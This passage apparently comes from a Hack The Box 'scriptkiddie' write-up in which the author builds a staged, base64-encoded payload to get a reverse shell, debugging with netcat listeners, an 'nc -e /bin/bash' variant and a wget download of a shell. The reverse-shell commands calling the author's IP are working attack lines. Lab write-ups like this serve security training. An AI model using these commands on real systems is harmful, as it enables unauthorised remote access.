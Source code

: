 Strange, I've never seen that error before. But it means we're on the right track.

I tried to go for a staged payload instead. To achieve this, I'd need two APK files - one to save a reverse shell to the box, and one to execute it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "echo 'bash -i >& /dev/tcp/10.10.16.211/9001 0>&1' > /tmp/hellothere.sh" | base64
ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yMTEvOTAwMSAwPiYxJyA+IC90bXAv
aGVsbG90aGVyZS5zaAo=
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "/tmp/hellothere.sh" | base64
L3RtcC9oZWxsb3RoZXJlLnNoCg==
```

I had a few issues with this, including base64 encoding occasionally inserting a line break depending on what IP I had. I had to keep checking my payload was okay with `base64 -d` before submitting:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yMTEvOTAwMSAwPiYxJyA+IC90bXAvaGVsbG90aGVyZS5zaAo=" | base64 -d
echo 'bash -i >& /dev/tcp/10.10.16.211/9001 0>&1' > /tmp/hellothere.sh
```

I also created a second copy of the python script with the second payload, so I could run them both without having to keep going in and editing the `payload` variable.

Submitting the first stage eventually gave me the "something went wrong message":

![[Pasted image 20210612141910.png]]

This isn't really indicative of whether or not it worked. To test, we need to run the second one as well. Resubmitting another payload:

![[Pasted image 20210612142007.png]]

(and remembering to restart our netcat listener):

![[Pasted image 20210612142103.png]]

The page finishes executing, but we don't get a hit. I tried again, this time specifying port 80 in my first stage, and starting a new listener:

![[Pasted image 20210612142418.png]]

But no hit.

### Debugging

I tried a few methods here to try and fix my payload:
- `echo "nc -e /bin/bash 10.10.14.9 9001" | base64` as my payload as an alternative to the `/dev/tcp` shell
- using `/bin/sh` in all the payloads rather than `/bin/bash`
- using a `wget http://10.10.16.211/test` payload to download a reverse shell from my box. This got a hit, proving we did in fact have code execution - but I struggled to think where the downloaded file would end up
